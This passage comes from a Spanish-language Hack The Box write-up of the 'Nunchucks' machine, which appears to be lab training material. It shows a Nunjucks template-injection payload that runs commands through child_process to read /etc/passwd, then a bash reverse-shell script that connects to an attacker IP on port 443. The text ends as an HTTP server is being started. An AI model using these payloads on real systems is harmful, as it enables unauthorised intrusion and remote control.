 ![nunchucks-7](/assets/img/htb/nunchucks/nunchucks-7.png)

---
Interceptamos la petición con Burp Suite y modificamos el payload para ejecutar un comando en la máquina víctima. Utilizamos el siguiente payload para ejecutar `tail /etc/passwd`.

```bash
\{\{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()\}\}
```

![nunchucks-8](/assets/img/htb/nunchucks/nunchucks-8.png)

---
El payload funciona, y obtenemos el contenido del archivo `/etc/passwd`, lo que nos confirma que podemos ejecutar comandos en la máquina víctima. Procedemos a utilizar esta vulnerabilidad para obtener una reverse shell. Creamos un archivo `index.html` que contiene un script bash para establecer una conexión inversa.

```bash
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.16.3/443 0>&1' > index.html
```
---
Iniciamos un servidor HTTP en nuestro equipo atacante para servir este archivo.
